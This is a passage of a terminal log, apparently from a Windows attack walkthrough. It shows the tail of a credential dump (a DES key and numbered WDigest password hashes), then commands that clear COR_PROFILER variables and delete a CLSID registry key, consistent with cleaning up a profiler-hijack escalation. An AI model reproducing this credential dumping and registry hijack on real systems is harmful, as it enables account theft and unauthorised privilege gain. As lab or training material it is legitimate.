      des_cbc_md5       : 977526ab75ea8691

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  3d5588c6c4680d76d2ba077526f32a5f
    02  fe1ac8183d11d4585d423a0ef1e21354
    03  eed2a6a9af2e107cdd5e722faf9ed37a
    04  3d5588c6c4680d76d2ba077526f32a5f
    05  fe1ac8183d11d4585d423a0ef1e21354
    06  a5a3b7dd758f68b0a278704adb369bab
    07  3d5588c6c4680d76d2ba077526f32a5f
    08  0ef30f135647c7c486081630caf708da
    09  0ef30f135647c7c486081630caf708da
    10  65974a65a535c47de5c6b6712ffa5c8d
    11  fe790227e59a7b92b642884eacb84841
    12  0ef30f135647c7c486081630caf708da
    13  3c5a73e8774f215ffdd890f5e6346a05
    14  fe790227e59a7b92b642884eacb84841
    15  752720442d3f869baff615ae37a01d64
    16  752720442d3f869baff615ae37a01d64
    17  994c18bfe477093681c6b1d60ca56ac9
    18  5fdbdb1b61e0717ba72b31741ae7ea19
    19  535375d7fc7b3ec068521ac5ab6680d4
    20  64d869a620dced95df997d91c5c2ecda
    21  16b97c2628a32cb876ede8bb4e6d5253
    22  16b97c2628a32cb876ede8bb4e6d5253
    23  eca0357ae57e1df149e2d016494173c9
    24  6e22a7980efe7c6bf44f821ea902d209
    25  6e22a7980efe7c6bf44f821ea902d209
    26  bfd73a5e0a64a9c334d1108004a98be5
    27  e55f4d4f79067737d4a95f11fdce1a13
    28  0141dc3481204f4334a0cb4cf6be2067
    29  8b31e2cda5a9dd5d728f55f44dc8e7ea


PS C:\Windows\system32>
C:\Windows\system32>set COR_ENABLE_PROFILING=

C:\Windows\system32>set COR_PROFILER=

C:\Windows\system32>REG DELETE "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
The operation completed successfully.
```